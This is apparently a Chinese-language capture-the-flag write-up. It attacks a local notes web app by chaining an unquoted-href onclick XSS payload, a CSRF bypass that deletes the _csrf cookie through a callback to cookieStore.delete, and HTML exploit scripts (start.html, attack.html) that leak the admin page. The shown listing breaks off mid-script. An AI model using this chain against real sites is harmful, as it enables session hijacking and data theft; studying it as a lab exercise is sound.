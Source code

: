 发现 `href` 渲染并没有加引号，所以直接可以对 a 元素添加 onclick 属性造成 1click XSS，脚本内容任意，可以外带数据。

```
http://localhost:12345?<space>onclick=eval(atob(`base64code`))
```

对于 csrf 的验证存在漏洞，若直接删除 cookie 中的 `_csrf` 键值对，由于服务端 cookie 中记录的 hasCSRF 一直为 True， 不会被更改，能直接绕开 csrf 限制访问所有 api。

而 callback 的参数对象是：
```json
{"success":true,"name":"foo","body":"bar"}
```

而 `cookieStore.delete` 所能接收的参数中 `name` 正代表 cookie 的键名。所以构造一个 name 为 `_csrf` 的 note 再调用 callback 便能删除 csrf。

所以这种方法的步骤是：
1. 准备工作先注册一个账号；创建一个 `name` 为 `_csrf` 的 post，记录下 uuid；创建一个内容为 `http://localhost:12345?<space>onclick=eval(atob(`base64code`))<space>` 的 todo。
2. 打开 admin home 页面并保留。
3. `callback` 调用 `cookieStore.delete` 删除 `csrf`。
4. 调用 `logout` 清除 `session`。
5. 同 3 删除 `csrf`。
6. `login.html` 表单登录自己的账号。
7. 通过 `callback` 的 `document.links[x].click` 点击 todo 链接触发 1click XSS，带出 admin home 的内容。

`start.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));
    (async () => {
        open(`/attack.html`);
        location.replace("http://localhost:12345");
    })()
</script>
```

`attack.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));

    async function delete_csrf() {
        PAYLOAD = `cookieStore.delete`;
        // uuid's name is `_csrf`
        page = open(`http://localhost:12345/post/?id=77a90981-3856-40ba-8c7a-fdbb0bd52eeb?callback=${PAYLOAD}%23%00`);
        await sleep(1000);
        page.close();
    }

    (async () => {
        // delete cookie
        await delete_csrf();

        // logout
        page = open("http://localhost:12345/api/logout");
        await sleep(1000);
        page.close();

        // delete cookie
        await delete_csrf();

        // login
        page = open(`/login.html`);
        await sleep(1000);
        page.close();
```